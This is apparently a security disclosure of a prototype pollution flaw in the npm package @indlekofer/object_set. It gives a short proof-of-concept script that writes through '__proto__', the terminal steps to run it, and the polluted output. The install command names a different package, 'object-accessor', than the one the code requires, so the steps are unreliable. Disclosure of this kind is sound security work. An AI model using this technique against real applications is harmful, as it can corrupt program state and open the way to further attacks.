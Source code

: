 # Description

Prototype Pollution in @indlekofer/object_set

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectSet = require("@indlekofer/object_set")
var obj = {}
console.log("Before : " + {}.polluted);
objectSet.default(obj,["__proto__","polluted"],"Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-accessor # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
